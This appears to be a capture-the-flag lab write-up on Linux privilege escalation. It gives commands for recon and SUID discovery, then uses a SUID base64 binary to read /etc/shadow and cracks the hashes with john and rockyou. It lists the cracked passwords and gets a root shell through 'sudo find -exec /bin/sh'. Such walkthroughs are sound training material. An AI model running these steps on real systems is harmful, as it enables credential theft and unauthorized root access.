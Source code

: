RECON:

```jsx
cat /etc/passwd | grep home `(to list the user)`
uname -a  
cat /proc/version `(to check OS info)`
sudo -l   `(to check the sudos)`

```

![image](https://github.com/user-attachments/assets/0d9e9da3-e1ec-41c2-a78d-1482eaf09fc9)


checking suid 

```jsx
find / -type f -perm -04000 -ls 2>/dev/null
find / -type f -perm -u=s -ls 2>/dev/null
```

![image](https://github.com/user-attachments/assets/c1563691-76ef-44f5-bd2a-55e3f7b5759f)


since we have base64 we can read files by setting LFILE as shown below

```jsx
LFILE=/etc/passwd
base64 "$LFILE" | base64 --decode

LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode

`copy the content to passwd.txt ad shadow.txt and use unshadow`

unshadow passwd.txt shadow.txt > passwords.txt

`now use passwords.txt file as an input for john to crack the password`

john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

passwords found:

Password1        (missy)

Penny123         (leonard)

![image](https://github.com/user-attachments/assets/188f95e6-8865-4562-bc86-9afc3e280557)


switch user:

```jsx
su missy
cd /home/missy/Documents
cat flag1.txt

```

![image](https://github.com/user-attachments/assets/5d3a6a57-4a02-4bfe-923d-4a25c10f8dfe)


For Missy user find sudos:

```jsx
sudo -l
sudo find . -exec /bin/sh \; -quit
cd /home/rootflag
cat flag2.txt
```

![image](https://github.com/user-attachments/assets/1002eda2-ead5-450c-8248-0460b91e535b)


other way:
![image](https://github.com/user-attachments/assets/9a113d36-4cdc-4e1d-97ad-7c0fbdb62dbc)
